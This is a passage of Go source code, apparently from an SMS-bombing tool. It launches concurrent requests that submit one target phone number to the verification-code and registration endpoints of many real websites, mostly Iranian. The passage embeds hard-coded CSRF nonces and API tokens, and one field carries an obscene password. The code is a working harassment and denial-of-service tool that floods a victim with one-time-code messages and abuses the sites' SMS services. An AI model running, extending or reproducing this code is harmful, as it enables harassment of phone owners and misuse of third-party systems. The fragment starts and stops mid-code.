 			s39: phone,
		}, ch)
		s40 := fmt.Sprintf("mobile=%s&__RequestVerificationToken=lqpAP86cm6ubwUoSRlGeHdrLJ90KhrBSHzLZ7_rAQ5dAZT-q__KWOkJ3TRoPtz8Q13HaLVCmcfsB1itFNtrvVbX0xWE1", phone)
		go sms("https://www.foodcenter.ir/account/sabtmobile", map[string]interface{}{
			s40: phone,
		}, ch)

		s41 := fmt.Sprintf("'mobileOrEmail':%s,'deviceCode':'d520c7a8-421b-4563-b955-f5abc56b97ec','firstName':'','lastName':'','password':''", phone)
		go sms("https://auth.homtick.com/api/V1/User/GetVerifyCode", map[string]interface{}{
			s41: phone,
		}, ch)
		s42 := fmt.Sprintf("'optype':15,'userid':0,'mobile':%s,'firstname':'','lastname':'','cityid':0,'email':'','birthdate':'','gender':'False','avatarid':0,'packagename':'','versioncode':-1,'tokenkey':'','username':'','password':'','connectionname':'MainConStr'", phone)
		go sms("https://app.kardoon.ir:4433/api/users", map[string]interface{}{
			s42: phone,
		}, ch)
		s43 := fmt.Sprintf("'phoneNumber':%s,'email':''", phone)
		go sms("https://abantether.com/users/register/phone/send/", map[string]interface{}{
			s43: phone,
		}, ch)
		s44 := fmt.Sprintf("'Token':'5c486f96df46520d1e4d4a998515b1de02392c9b903a7734ec2798ec55be6e5c','DeviceId':1,'PhoneNumber':%s,'Helper':77942", phone)
		go sms("https://amoomilad.demo-hoonammaharat.ir/api/v1.0/Account/Sendcode", map[string]interface{}{
			s44: phone,
		}, ch)
		s45 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=54dfdabe34&login=1&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&mobmail=%s&dig_otp=&dig_nounce=54dfdabe34", phone, phone)
		go sms("https://ashraafi.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s45: phone,
		}, ch)
		s46 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=ec10ccb02a&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digregcode=%2B98&digits_reg_mail=%s&digits_reg_password=fuckYOU&dig_otp=&code=&dig_reg_mail=&dig_nounce=ec10ccb02a", phone, phone)
		go sms("https://bandarazad.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s46: phone,
		}, ch)
		s47 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=c0f5d0dcf2&login=1&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&mobmail=%s&dig_otp=&digits_login_remember_me=1&dig_nounce=c0f5d0dcf2", phone, phone)
		go sms("https://bazidone.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s47: phone,
		}, ch)
		s48 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=94cf3ad9a4&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digits_reg_name=%D8%A8%DB%8C%D8%A8%D9%84%DB%8C%D9%84&digregcode=%2B98&digits_reg_mail=%s&digregscode2=%2B98&mobmail2=&digits_reg_password=&dig_otp=&code=&dig_reg_mail=&dig_nounce=94cf3ad9a4", phone, phone)
		go sms("https://www.bigtoys.ir/wp-admin/admin-ajax.php", map[string]interface{}{
			s48: phone,
		}, ch)
		go sms(fmt.Sprintf("https://bitex24.com/api/v1/auth/sendSms?mobile=%s&dial_code=0", phone), map[string]interface{}{
			"esfelurm": "esfelurm",
		}, ch)
		s49 := fmt.Sprintf("action=digits_check_mob&countrycode=%2B98&mobileNo=%s&csrf=79a35b4aa3&login=2&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&digits_reg_name=%D9%86%DB%8C%D9%85%D9%86%D9%85%D9%85%D9%86%DB%8C%D8%B3&digits_reg_lastname=%D9%85%D9%86%D8%B3%DB%8C%D8%B2%D8%AA%D9%86&digregscode2=%2B98&mobmail2=&digregcode=%2B98&digits_reg_mail=%s&dig_otp=&code=&dig_reg_mail=&dig_nounce=79a35b4aa3", phone, phone)
		go sms("https://farsgraphic.com/wp-admin/admin-ajax.php", map[string]interface{}{
			s49: phone,